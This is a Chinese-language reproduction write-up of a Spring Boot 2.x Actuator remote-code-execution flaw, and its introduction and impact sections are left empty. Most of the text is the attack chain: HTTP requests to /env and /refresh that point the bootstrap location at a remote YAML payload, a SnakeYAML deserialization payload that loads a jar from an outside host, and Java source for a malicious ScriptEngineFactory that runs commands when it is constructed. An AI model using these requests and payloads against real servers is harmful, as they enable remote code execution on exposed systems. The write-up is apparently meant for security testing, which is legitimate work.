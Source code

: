 Spring Boot 修改环境属性导致的rce
=================================

一、漏洞简介
------------

二、漏洞影响
------------

Spring Boot 2.x

三、复现过程
------------

环境下载 https://github.com/ianxtianxt/actuator-testbed

    POST /env HTTP/1.1
    Host: 127.0.0.1:8090
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 59
     
    spring.cloud.bootstrap.location=http://artsploit.com/yaml-payload.yml

该请求修改了"
spring.cloud.bootstrap.location"属性，该属性用于加载外部配置并以YAML格式解析它。为了做到这一点，我们还需要调用"
 refresh"端点。

    POST /refresh HTTP/1.1
    Host: 127.0.0.1:8090
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0

从远程服务器获取YAML配置时，将使用SnakeYAML库进行解析，该库也容易受到反序列化攻击。有效载荷（yaml-payload.yml）可以通过使用前述的Marshalsec研究生成：

    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
      ]]
    ]

该文件的反序列化将触发提供的URLClassLoader的ScriptEngineManager构造函数的执行。简而言之，它导致了\*\*\'java.util.ServiceLoader＃load（java.lang.Class
，java.lang.ClassLoader）\'\*\*方法，该方法试图在所有库中查找\'ScriptEngineFactory\'接口的所有实现。在类路径中。由于我们可以通过URLClassLoader添加新的库，因此我们可以在其中包含恶意字节码的情况下为新的\'ScriptEngineFactory\'提供服务。为此，我们需要使用以下必需文件创建一个jar归档文件：https://github.com/ianxtianxt/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java应该包含实际的字节码，并在构造函数中带有恶意负载。

    public class AwesomeScriptEngineFactory implements ScriptEngineFactory {
     
        public AwesomeScriptEngineFactory() {
            try {
                Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
                Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
            } catch (IOException e) {
                e.printStackTrace();
            }

https://github.com/ianxtianxt/yaml-payload/blob/master/src/META-INF/services/javax.script.ScriptEngineFactory应该只是一个包含对\'artsploit.AwesomeScriptEngineFactory\'的完整引用的文本文件，以便ServiceLoader知道在哪里可以找到该类：**artsploit.AwesomeScriptEngineFactory**同样，这种利用技术要求弹簧云位于类路径中，但是与Eureka的XStream有效负载相比，它甚至可以在最新版本中使用
